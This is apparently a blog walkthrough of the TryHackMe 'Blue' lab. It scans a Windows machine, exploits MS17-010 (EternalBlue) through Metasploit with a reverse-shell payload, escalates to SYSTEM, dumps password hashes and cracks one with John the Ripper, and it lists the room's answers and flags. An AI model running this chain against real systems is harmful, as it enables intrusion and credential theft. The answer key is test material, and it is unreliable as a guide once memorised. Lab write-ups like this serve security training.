



---
categories:
- Security
- TryHackMe
date: 2021-03-11 09:50:15 +0530
description: Deploy & hack into a Windows machine, leveraging common misconfigurations
  issues
img_path: /assets/
published: true
tags:
- tryhackme
- ctf
- security
- windows
title: TryHackMe - Blue
---



Cover Image by [BiZkettE1](https://www.freepik.com/free-vector/modern-business-background-with-geometric-shapes_5287944.htm) on Freepik

## Challenge

Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

**This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.**

## Task 1: Recon

1. **Scan the machine**

> sudo nmap -sS -sV -T4 -p- 10.10.136.254 -vv

### Scan Options

* `-sS`: Stealth Scan
* `-sV`: Service Versioning
* `-T4`: Timing Template (Aggressive)
* `-p-`: Scan all the ports
* `-vv`: Double verbose output


2. **How many ports are open with a port number under 1000?**

By looking at the scan results we see that ports 135, 139 and 445 are the only ports below 1000 that are open

> 3

3. **What is this machine vulnerable to? (Answer in the form of ms??-???, ex: ms08-067)**

To find the vulnerability that the machine is affected by we can run Nmap with the option `--script vuln` to find known vulnerabilities for the services that are found on the system

```bash
sudo nmap -sS -sV -T4 --script=vuln -p 135,139,445 10.10.136.254 -vv
```


We can see the SMB service on the target has a vulnerability (ms17-010)

> ms17-010

## Task 2: Gain Access

1. **Start Metasploit**

> No answer required

2. **Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/……..)**

Since we know that the vulnerability is present in SBMv1 searching for that in Metasploit should return all the vulnerabilities that are known for that version of the service.


As we can see there is only one vulnerability known from that version known as **"Eternal Blue"**.

> exploit/windows/smb/ms17_010_eternalblue

3. **Show options and set the one required value. What is the name of this value? (All caps for submission)**


Looking at the output we can see that the RHOSTS field is empty, we need to enter the value for that field


**Note:** Ensure to change the LHOST value to your TryHackMe VPN IP Address. This can be found using "ip a show tun0" command and looking at the inet field

> RHOSTS

4. **Usually, it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:**

```
set payload windows/x64/shell/reverse_tcp
```

**With that done, run the exploit!**

> No answer required


**Note:** When we run the exploit it might fail on the first try but it should be able to connect automatically on the second try. If the exploit runs successfully we should be in a shell session


## Task 3: Escalation

1. **If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in Metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)**

> post/multi/manage/shell_to_meterpreter


2. **Select this (use MODULE_PATH). Show options, what option are we required to change?**

Looking at the options we can see there are two options that we need to set the LHOST and SESSION


**Note:** We can view all the background sessions by typing "sessions". The value for LHOST can be found by using "ip a show tun0" under the inet section.

3. **Set the required option, you may need to list all of the sessions to find your target here.**

> No answer required

4. **Run! If this doesn't work, try completing the exploit from the previous task once more.**


> No answer required

**Note:** Sometimes this session might fail in that case we need to establish the session from the start

5. **Once the meterpreter shell conversion completes, select that session for use.**

> No answer required


6. **Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterward and select our meterpreter session for usage again.**

> No answer required


7. **List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).**

> No answer required


8. **Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.**

> No answer required

There are multiple services that we can use to migrate our current session. Let's try using the "cmd.exe" process which has a PID of 3064 and see if we have any luck



## Task 4: Cracking

1. **Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**


> Jon

2. **Copy this password hash to a file and research how to crack it. What is the cracked password?**

Let's save the hash of Jon into a file and then use John the Ripper to try and crack the hash

```
> echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > windowshash

> john --format=NT windowshash --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8  
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])  
Warning: no OpenMP support for this hash type, consider --fork=2  
Press 'q' or Ctrl-C to abort, almost any other key for status  
alqfna22         (Jon)  
1g 0:00:00:00 DONE (2021-03-11 15:05) 1.428g/s 14571Kp/s 14571Kc/s 14571KC/s alqui..alpusidi  
Use the "--show --format=NT" options to display all of the cracked passwords reliably  
Session completed
```

### Command Options

* `--format`: Specify the type of the hash
* `--wordlist`: The wordlist that is going to be used to brute force the hash

> alqfna22

## Task 5: Find flags!

1. **Flag1? _This flag can be found at the system root._**

The root of the system on Windows is the C drive


> flag{access_the_machine}

2. **Flag2? _This flag can be found at the location where passwords are stored within Windows._**

On searching online we find the passwords on Windows are saved in the `C:\Windows\System32\config\` folder in the SAM file




> flag{sam_database_elevated_access}

3. **flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._**

The user files on Windows are saved in `C:\Windows\Users\<username>\`. Let's see if the flag can be found in any folder in that location.


> flag{admin_documents_can_be_valuable}

That's all. Happy Hacking :)